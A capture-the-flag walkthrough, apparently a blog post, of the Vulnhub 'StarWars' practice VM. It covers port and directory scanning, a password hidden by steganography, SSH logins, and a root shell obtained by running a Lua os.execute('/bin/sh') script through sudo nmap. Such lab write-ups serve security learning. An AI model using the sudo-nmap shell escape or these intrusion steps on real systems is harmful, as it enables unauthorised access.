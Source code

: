 ```yaml
---
title: "Vulnhub: StarWars"
layout: archive
date:   2020-09-06
tags: Vulnhub
tags_label: true
---
```

This is a beginner level VM from Vulnhub. Star-wars themed 😍

### Scanning:

```
root@kali:~#​ nmap​ -PS 192.168.57.15
Starting Nmap 7.80 ( https://​ nmap​ .org ) at 2020-09-06 17:16 EDT
Nmap scan report ​ for​ 192.168.57.15
Host ​ is​ ​ up​ (0.00053s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp ​ open​ ssh
80/tcp ​ open​ http
```

#### Checking out the Web Server:

![](/assets/images/20/20-001.jpg)

#### Checking the page source:

![](/assets/images/20/20-002.jpg)

#### Decoding from base64:

![](/assets/images/20/20-003.jpg)

#### Decoding from Binary:

![](/assets/images/20/20-004.jpg)

### Web: Enumeration:

```
root@kali:~#​ ​dirb​ http://192.168.57.15

GENERATED​ WORDS: ​ 4612
-​ ---​ ​ Scanning​ URL: http://192.168.57.15/ ​ ----
+​ http://192.168.57.15/admin ​ (CODE:200|SIZE:3753)
==>​ DIRECTORY: http://192.168.57.15//assets/images/
+​ http://192.168.57.15/index.html ​ (CODE:200|SIZE:548)
==>​ DIRECTORY: http://192.168.57.15/javascript/
==>​ DIRECTORY: http://192.168.57.15/manual/
+​ http://192.168.57.15/robots.txt ​ (CODE:200|SIZE:105)
+​ http://192.168.57.15/server-status ​ (CODE:403|SIZE:278)
+​ http://192.168.57.15/wordpress ​ (CODE:200|SIZE:54)
```

### Checking wordpress:

![](/assets/images/20/20-005.jpg)

### Checking out admin:

![](/assets/images/20/20-006.jpg)

There is nothing there, the login does not actually go anywhere:

![](/assets/images/20/20-007.jpg)

#### Checking robots.txt:

![](/assets/images/20/20-008.jpg)

##### Checking out r2d2:

![](/assets/images/20/20-009.jpg)

##### Creating a wordlist from this page, there are several star wars words on the page (tatooine, obi wan, etc):

![](/assets/images/20/20-010.png)

##### Downloading the two /assets/images (2 yodas seen on home page):

You can see they are vastly different sizes, there might be something hidden in one. ![](/assets/images/20/20-012.jpg)

### Stego:

Running stegoveritas on yoda.png:

![](/assets/images/20/20-013.png)

Result:

```
root​@kali​:~/Downloads/results/keepers​# cat 1599426719.9636476
the real password is babyYoda123
```

### SSH Login:

Finding the username to go with the password:

#### Trying the cewl wordlist:

![](/assets/images/20/20-015.png)

#### Using a star wars wordlist:

![](/assets/images/20/20-017.png)

### Login to SSH:

![](/assets/images/20/20-019.png) ![](/assets/images/20/20-021.png)

Oops I missed this:

![](/assets/images/20/20-023.png)

Trying the cewl wordlist with skywalker:

![](/assets/images/20/20-025.png)

### Privilege Escalation:

#### Logging in as skywalker:

![](/assets/images/20/20-027.png)  

This file suggests Darth must have a cronjob running:

```
skywalker​@starwars​:~​$ ​cat .secrets/note.txt
Darth must take up the job of being a good father
skywalker​@starwars​:~$ ​id -a
uid=​1001(skywalker) gid=​1001​(skywalker) groups=​1001​(skywalker),​2000​(anakin)
```

This must be the script run for the job, it must run every minute.

```
skywalker​@starwars​:/home/Darth/​.secrets​$ ​cat evil.py
# Let the fear flow through you every single minute
fear = ​ 1
anger = fear
hate = anger
suffering = hate
```

I looked for the job couldn’t find it.

### “Cheating” at Priv Esc:

Used this to get the password for Darth. (The creator of this box forgot to clear the command history) Combine these into luke12clone50, and log in to Darth.

![](/assets/images/20/20-029.png) ![](/assets/images/20/20-031.png)

#### Checking crontab:

![](/assets/images/20/20-035.png)

Oops I really messed up there.

#### Use nmap to get a root shell:

![](/assets/images/20/20-033.png)

Use mktemp to create a temporary file that can be executed with the nmap script param

```
Darth​@starwars​:/home/skywalker​$ TF=​$(mktemp)
Darth​@starwars​:/home/skywalker​$ echo ​ 'os.execute("/bin/sh")'​ > ​ $TF
Darth​@starwars​:/home/skywalker​$ sudo nmap --script=​ $TF
```

![](/assets/images/20/20-037.png)

##### Root Flag:

![](/assets/images/20/20-039.png)

FIN.